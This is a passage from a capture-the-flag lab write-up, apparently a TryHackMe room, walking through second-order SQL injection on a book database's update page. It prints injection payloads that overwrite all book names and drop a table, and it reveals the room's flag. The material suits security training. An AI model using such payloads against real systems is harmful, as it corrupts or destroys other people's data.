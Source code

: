 Let's add a new book with the `SSN` `test'`:

![](Pasted%20image%2020250505145406.png)

As seen, this was successfully updated into the database, we can update the contents of the books by going to:

```
http://10.10.223.104/second/update.php
```

![](Pasted%20image%2020250505145535.png)

We can upload the crafted payload provided by the room:

```sql
12345'; UPDATE books SET book_name = 'Hacked'; --
```

Once uploaded, we can visit the `update.php` page and update the payload again:

![](Pasted%20image%2020250505145911.png)

If we click on update, we can see this:

![](Pasted%20image%2020250505145928.png)

All book names on the database changed to `hacked`, we can now change them to `compromised` adding this new book:

```sql
1'; UPDATE books SET book_name = 'compromised'; --
```

![](Pasted%20image%2020250505150021.png)

Let's update it:

![](Pasted%20image%2020250505150032.png)

Once updated, we can see this:

![](Pasted%20image%2020250505150048.png)

As seen, we got the flag:

```
THM{SO_HACKED}
```

Now, in order to drop the `hello` table from the database, we can use this payload:

```sql
1'; DROP TABLE hello; -- 
```

![](Pasted%20image%2020250505150517.png)

Let's update, once we update it, we can see this:
